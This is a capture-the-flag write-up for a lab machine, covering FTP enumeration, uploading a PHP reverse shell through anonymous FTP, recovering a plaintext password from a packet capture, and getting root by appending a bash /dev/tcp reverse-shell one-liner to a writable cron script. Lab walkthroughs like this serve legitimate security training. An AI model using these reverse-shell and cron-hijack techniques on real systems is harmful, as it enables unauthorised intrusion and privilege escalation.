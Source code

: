 ```yaml
---
sticker: emoji//1f336-fe0f
---
```

# ENUMERATION



## OPEN PORTS

Let's begin with a simple Nmap scan:

![](images/Pasted%20image%2020241023164431.png)

```ad-hint
OPEN PORTS:

- 21: ftp (Anonymous login allowed)
- 22: ssh
- 80: http
```

Let's log in FTP since anonymous login is allowed:

![](images/Pasted%20image%2020241023164907.png)

We found this files, let's download them all using `mget *`

Let's read `notice.txt`:

![](images/Pasted%20image%2020241023165101.png)

Seems like `maya` could be an user for ssh

If we try to use `steghide` in the important.jpg we get this:

![](images/Pasted%20image%2020241023165247.png)
Let's try to change the hex for the file into a jpg, and try again:

![](images/Pasted%20image%2020241023165422.png)
![](images/Pasted%20image%2020241023165648.png)

Couldn't get anything useful, so, let's start with the web fuzzing and enumeration
## FUZZING

Using FFUF to fuzz the website, I found this directory:

![](images/Pasted%20image%2020241023164544.png)

Let's visit the website and try to enumerate it further: 

![](images/Pasted%20image%2020241023165753.png)
## SOURCE CODE

![](images/Pasted%20image%2020241023165822.png)
# EXPLOITATION


## FILES DIRECTORY

![](images/Pasted%20image%2020241023165853.png)

Seems like we could exploit the ftp to upload files into the server, we could try uploading a [[MOST COMMON REVERSE SHELLS|reverse shell]] for this CTF, I uploaded a [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php):



![](images/Pasted%20image%2020241023174700.png)

Nice, let's send the reverse shell and get our connection:


![](images/Pasted%20image%2020241023174758.png)

Once I established the connection, I stabilized my shell using the [[STABLE SHELL|stable shell tricks]]

![](images/Pasted%20image%2020241023174947.png)

Nice, now we have an stable shell, let's get our flags and escalate privileges.


# PRIVILEGE ESCALATION

Before trying to escalate privileges, we are able to read the recipe.txt file and it says this:

![](images/Pasted%20image%2020241023175629.png)

So, we got our first answer, let's try to read the home directory:

![](images/Pasted%20image%2020241023175658.png)


If we try to `cd` to Lennie home, permission is denied, but now, we can try other escalation vectors, for example, if we use linpeas, we are able to see we have 2 suspicious folder in root:

```ad-note
[+] Unexpected folders in root 
/incidents /data
```

Let's read the contents of both files:

![](images/Pasted%20image%2020241023180403.png)

We got a `.pcapng` file, we can analyze it with wireshark, let's copy it to `/var/www/html/files/ftp` and download it to our machine:

![](images/Pasted%20image%2020241023180944.png)
![](images/Pasted%20image%2020241023180951.png)


Now that we filtered tcp in wireshark, we can follow the tcp stream for the following:

![](images/Pasted%20image%2020241023182634.png)

If we follow the stream, we are able to see this:

![](images/Pasted%20image%2020241023182732.png)

Seems like we got the password for Lennie:

```ad-important
`lennie:c4ntg3t3n0ughsp1c3`
```

![](images/Pasted%20image%2020241023182848.png)
We are in, now, we are able to read the `user.txt`

If we try `sudo -l`, lennie may not run sudo on startup, let's use the other techniques from [[BASIC PRIVESC IN LINUX|linux privesc]]

After trying all that, nothing useful came, but, in the lennie home, we found a useful directory called `/scripts` 
![](images/Pasted%20image%2020241023183424.png)
I found a planner.sh and startup_list.txt, second file did not have anything useful, but first file, had this:


![](images/Pasted%20image%2020241023183735.png)

A `/etc/print.sh` file, we can write on it, let's write a reverse shell on it:

```ad-important
shell: `echo "/bin/bash -i >& /dev/tcp/10.6.34.159/1234 0>&1" >> /etc/print.sh`
```

Since planner.sh runs every minute, we only need to wait a minute with out netcat set on to get the shell:

![](images/Pasted%20image%2020241023184044.png)

And just like that, we finished the machine:

![](images/Pasted%20image%2020241023184153.png)

Gg!

